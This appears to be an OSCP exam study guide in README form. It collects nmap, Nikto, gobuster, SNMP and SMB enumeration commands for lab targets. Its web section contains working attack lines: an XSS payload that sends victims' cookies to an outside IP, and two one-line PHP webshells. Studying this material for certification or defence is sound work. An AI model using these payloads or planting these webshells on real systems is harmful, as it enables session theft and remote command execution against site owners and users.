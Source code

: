 # OSCP
OSCP Study Guide

## Table of Contents

## Enumeration and Recon

### NMAP:

Legend: 
```
-sN TCP Null Scan reveals the status of ports without directly querying them
-sV: Probe open ports to determine service/version info
-sC: equivalent to --script=default
-sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans
-sU: UDP Scan
-O: Enable OS detection
-g/--source-port <portnum>: Use given port number
-oA <basename>: Output in the three major formats at once
-A: Enable OS detection, version detection, script scanning, and traceroute
--version-light: Limit to most likely probes (intensity 2)
```

Examples Commands:

```
nmap -sC -sV -oA nmap\machine 10.10.10.1
```
```
nmap -A -T4 -p- -oA nmap\machine 10.10.10.1
```

UDP Scanning:

```
nmap -sU -oA nmap\machine_udp
```

Vulnerability Scanning:

```
sudo nmap --script vuln 10.11.1.10
```

### subdomain enumeration

```
dig axfr @10.10.10.13 cronos.htb
```

### Web Enumeration

Nikto scanning:

```
nikto -h http://10.10.10.1
```

Directory busting with different tools:

DIRB

```
dirb http://10.10.10.1
```

Gobuster

```
gobuster dir -u http://10.129.155.74:3000 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x aspx
```

### Pentesting Website Applications

XSS Payloads:
Cheatsheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection

Basic XSS form testing with either netcat listener or python web server
```
<img src=http://10.10.16.10/pwn.jpg/>
```

Cross Site scripting to dump base64 cookies. Make sure to url encode in burp with ctrl + u
```
<img src=x onerror=this.src='http://10.10.16.10/?cookies='+btoa(document.cookie) />
```
### Webshells

Reference: https://sushant747.gitbooks.io/total-oscp-guide/content/webshell.html

Simple PHP webshell for command execution

```
<?php system($_REQUEST ['cmd']) ?>
```

```
<?php system($_GET['cmd']); ?>
```

### Pentesting SNMP

Port 161 UDP

```
snmpwalk -c public -v2c 10.129.213.210
```

```
snmp-check 10.129.213.210
```

### Pentesting SMB

```
crackmapexec smb 10.129.70.254 
```

Detect anonymous shares that are open

```
smbclient -L //10.129.70.254
```

Null Authentication

```
smbclient -N -L //10.129.70.254
```

## Post Exploitation

### Downloading and Transferring Files

